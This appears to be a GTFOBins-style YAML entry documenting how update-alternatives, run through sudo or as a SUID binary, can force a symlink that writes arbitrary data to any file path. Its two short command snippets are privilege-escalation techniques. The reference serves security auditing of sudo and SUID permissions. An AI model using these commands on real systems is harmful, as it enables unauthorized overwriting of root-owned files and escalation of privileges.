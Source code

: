 functions:
  sudo:
    - description: Write in `$LFILE` a symlink to `$TF`.
      code: |
        LFILE=/path/to/file_to_write
        TF=$(mktemp)
        echo DATA >$TF
        sudo update-alternatives --force --install "$LFILE" x "$TF" 0
  suid:
    - description: Write in `$LFILE` a symlink to `$TF`.
      code: |
        LFILE=/path/to/file_to_write
        TF=$(mktemp)
        echo DATA >$TF
        ./update-alternatives --force --install "$LFILE" x "$TF" 0
---

